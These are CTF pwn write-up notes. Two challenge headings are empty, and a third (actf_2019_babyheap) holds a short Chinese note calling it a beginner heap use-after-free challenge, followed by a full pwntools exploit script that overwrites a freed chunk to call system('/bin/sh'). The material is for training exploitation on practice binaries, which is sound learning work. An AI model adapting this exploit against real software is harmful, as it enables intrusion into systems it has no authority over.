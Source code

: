 
## jarvisoj_level3_x64

## babyheap_0ctf_2017

## actf_2019_babyheap
### 思路
堆入门题，UAF漏洞

### exp
```python
from pwn import *

#context.log_level = 'debug'

name = "ACTF_2019_babyheap"
p = process(name)
#p = remote("node5.buuoj.cn",26688)
elf = ELF(name)

binsh=0x602010
system_plt = elf.plt["system"]

def create(size,content):
    p.sendlineafter(b"Your choice:",b"1")
    p.sendlineafter(b"Please input size:",str(size).encode())
    p.sendafter(b"Please input content:",content)

def delete(idx):
    p.sendlineafter(b"Your choice:",b"2")
    p.sendlineafter(b"Please input list index:",str(idx).encode())

def show(idx):
    p.sendlineafter(b"Your choice:",b"3")
    p.sendlineafter(b"Please input list index:",str(idx).encode())

gdb.attach(p)

create(0x100,b'A'*10)
create(0x100,b'B'*10)
#create(0x100,b'C'*10)
delete(0)
delete(1)
create(0x10,p64(binsh)+p64(system_plt))
show(0)

p.interactive()
```